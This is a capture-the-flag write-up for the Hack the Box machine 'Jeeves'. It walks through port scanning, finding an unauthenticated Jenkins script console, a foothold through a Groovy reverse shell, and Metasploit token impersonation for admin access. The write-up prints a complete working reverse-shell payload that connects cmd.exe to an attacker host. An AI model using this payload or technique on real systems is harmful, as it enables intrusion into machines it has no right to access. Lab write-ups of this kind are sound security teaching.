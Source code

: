 ```yaml
---
title: Jeeves
date: 2024-02-23 10:00
categories: [ctf, security, hacking, exploits]
tags: [ctf, security, hacking, exploits]
---
```


# Overview
Jeeves is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some basic enumeration and directory fuzzing. The foothold is accomplished after some enumeration of web pages and gaining access to the Jenkins login, and the privilege escalation is done with token impersonation similar to the Alfred box on [TryHackMe](https://tryhackme.com).

## Nmap Scan
sudo nmap -Pn -sS `10.10.10.63` -vvv

* 80/tcp    open  http         syn-ack
* 135/tcp   open  msrpc        syn-ack
* 445/tcp   open  microsoft-ds syn-ack
* 50000/tcp open  ibm-db2      syn-ack | http-title: Ask Jeeves

## Basic Enumeration
After exploring the web page on port 80, we just get an image on the page. Not really a major bit of information, but it does give us some data that we can still take note of for later on:

* Microsoft SQL server 2005 on the backend
* https://eclipse.dev/jetty/
    * Jetty has a vulnerability: Information Disclosure | java/webapps/50438.txt

Port 50000 is the port for us to look through. Smbclient enumeration on port 445 didn't yield anything for us. 

* Using a directory fuzzer, we find the `askjeeves` directory. We have direct access without logging in.
    * http://10.10.10.63:50000/askjeeves/
    * Jenkins version 2.87 running.
    * Without having to log in, we are able to find a script console.
    * We can pass groovy script to execute code/commands.

## Foothold
[Documentation on Groovy Scripts](https://www.jenkins.io/doc/book/managing/script-console/#:~:text=Jenkins%20features%20a%20Groovy%20script,integrity%20of%20your%20Jenkins%20installation)

We can find and use a reverse shell for groovy script, and get a connection back on our machine with `nc`.

```java
String host="10.10.16.3";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
We get a shell back on this, and are user `jeeves\kohsuke`. We can access `user.txt`.

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/jeeves/Jeeves_User.png?raw=true)

## Local Enumeration
Checking the users on the host, the only other user than jeeves is `Administrator`.

* We can find what privileges we have using `whoami/priv`:
```
SeShutdownPrivilege | Shut down the system | Disabled
SeChangeNotifyPrivilege | Bypass traverse checking | Enabled
SeUndockPrivilege | Remove computer from docking station | Disabled
SeImpersonatePrivilege | Impersonate client after authentication | Enabled
SeCreateGlobalPrivilege | Create global objects | Enabled
SeIncreaseWorkingSetPrivilege | Increase a process working set | Disabled
SeTimeZonePrivilege | Change the time zone | Disabled
```

* We run systeminfo on the current shell, and copy the output to a file. On kali, we can run `Windows Exploit Suggester` to get some potential path's to escalate privileges. 
* If we get a meterpreter shell on the host as well, we can do the same thing through `msfconsole`.

## Privilege Escalation
Bring up the msfconsole.
* use exploit(multi/script/web_delivery)
* when in the meterpreter shell, run `post/multi/recon/local_exploit_suggester`
* use `exploit/windows/local/ms16_075_reflection_juicy`
    * Load incognito, then we can list out tokens.
    * `list_tokens -u, -g`
    * The user token didn't work for us, but the group token seems to work. 
* We were able to impersonate the `BUILTIN\Administrators` group. 

Looking at the `Administrators Desktop`, the file we see is `hm.txt`. When we read it, it tells us to dig more basically. 

* We can read alternative data streams, by running `dir /R`, we can see the other data stream [Malware Bytes Blog](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/). 
* We run this, and we can finally read the file: `more < hm.txt:root.txt:$DATA`

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/jeeves/Jeeves_Root.png?raw=true)